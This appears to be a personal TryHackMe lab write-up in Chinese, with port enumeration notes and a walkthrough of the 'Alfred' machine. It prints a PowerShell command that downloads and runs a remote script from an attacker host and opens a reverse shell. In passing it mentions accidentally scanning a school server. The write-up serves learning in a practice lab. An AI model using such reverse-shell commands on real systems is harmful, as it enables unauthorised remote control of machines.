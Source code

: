 # THM

[toc]


`fadfas`


## Machine

### Services
#### user

![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230508191642.png)

直接80端口+dirbuster扫目录,一无所获

![image.png|600](https://gitee.com/leiye87/typora_picture/raw/master/20230508193456.png)

可利用端口
- 80 IIS 10.0 
- 88 kerberos 
- 389 ldap 服务
- 3389 rdp
- 5985 WInRm
`smbclient //10.10.109.31/anonymous` 试下smb匿名登录



### Alfred

#### user

![image-20230423225328805](https://gitee.com/leiye87/typora_picture/raw/master/20230423225331.png)

没连vpn,不知道把学校哪个服务器扫了

![image-20230423230116938](https://gitee.com/leiye87/typora_picture/raw/master/20230423230118.png)

访问8080端口,提示我们存在命令执行,在script目录下可以执行 `Groovy script` 搜索发现是java类的,但是无法命令执行

在project 下存在命令执行,由于是window,需要使用powershell反弹shell,下载我们的shell 后执行

```
powershell iex (New-Object Net.WebClient).DownloadString('http://10.4.20.202/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.4.20.202 4444 your-port
```

![image-20230424001349327](https://gitee.com/leiye87/typora_picture/raw/master/20230424001350.png)

#### switch shell

为了提权更加容易,将shell转变为msfshell
